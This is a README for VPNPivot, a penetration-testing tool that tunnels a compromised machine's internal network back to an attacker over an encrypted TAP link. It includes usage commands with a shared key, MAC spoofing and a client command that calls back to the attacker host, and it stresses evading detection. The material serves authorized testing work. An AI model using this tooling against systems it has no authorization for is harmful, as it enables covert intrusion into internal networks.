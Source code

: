 VPN Pivot!
===================
You can find here a tutorial about how to use VPNPivot with examples : http://blog.0x36.org/?p=57

Sometime we do external penetration testing and when we compromise the remote target we would love to explore the internal network behind and getting such compromise like owning Active directory, accessing shared files ... etc.
There are many techniques like port forwarding, socks4 ..., but each one has its pros and cons . this is the reason why VPN pivoting techniques is out , it solves all the problems encountered by using both of the techniques mentioned above.
it lets you interact with internal networks that are prevented by firewalls,NATs .. etc

This an implementation of **VPN pivoting** technique in Linux using pure low-level sockets within tap device.
It creates a fully encrypted tunnel using a shared key between the target machine and the attacker.
 
----------


How it works
-------------
VPN Pivot sends and receive a fully encrypter TCP/IP stack over TCP socket,then the peers forward it into the desired device.
The attacker explores the internal network as he belongs to it within a local IP address taken from the dhcp server or statically configured . the used IP will never be reachable which makes him harder to track.

>**VPN Server: **
The VPNPivot server must be run in the the attacker machine, it creates a a virtual device (tap)  with the possibility to change MAC (that seems fine for spoofing and Mac switching) , IP address , MTU and also the owner of the interface.
The TAP devices interacts with the targets machine, it sends/receives raw ethernet frame.
Once the attacker get a successfully tunnel connection, the tap device can intercats with the DHCP server of the internal hacked network, receives/send broadcast packets, and also IP addresses reuse.

>**VPN Client: **
The VPN Pivot client must be run in the target machine, it creates two socket files , the first as client for the tunnel and the second for interacting with the device directly.
it works like we are creating a undetectable tap device which makes it harder to detect.
 
---------

Usage
-------------
**Compilation :**

> simo:~/projects/VPNPivot$ make
  [CC] vpnp_server.o
  [CC] crypto.o
  [BIN] vpnp_server
  [CC] vpnp_client.o
  [BIN] vpnp_client
  ---------
**vpnp_server :**
> ./vpnp_server -i pwn0 -I 10.10.10.145/24 -m 1500 -H 0c:0a:DE:AD:BE:EF -K "I0wnY0u*!" -v**
[+] Setup a non-persistent tap : pwn0
[+] Listening on port : 12345

So it creates an a tap device named pwn0 as shown bellow:
> 
simo:~$ ifconfig pwn0
pwn0      Link encap:Ethernet  HWaddr 0c:0a:de:ad:be:ef  
          inet adr:192.168.200.70  Bcast:192.168.200.255  Masque:255.255.255.0
          adr inet6: fe80::887e:86ff:fe8a:3599/64 Scope:Lien
          UP BROADCAST RUNNING  MTU:1500  Metric:1
          Packets reçus:0 erreurs:0 :0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 lg file transmission:500 
          Octets reçus:0 (0.0 B) Octets transmis:0 (0.0 B)

finally, it waits for the client to be connected 

**vpnp_client :**
> Usage : 
./vpnp_client 10.254.30.53 12345 10.10.10.1 "I0wnY0u*!"

That's it :-) , enjoy your pwning 

TODO
-------------
The main focus for the moment is to port the client to windows, The client is mainly designed to be portable and doesn't require any dependencies, 
Since windows doesn't support data link layer manipulation with WinSock ,thus we should hook some kernel function (NDIS hooks?).

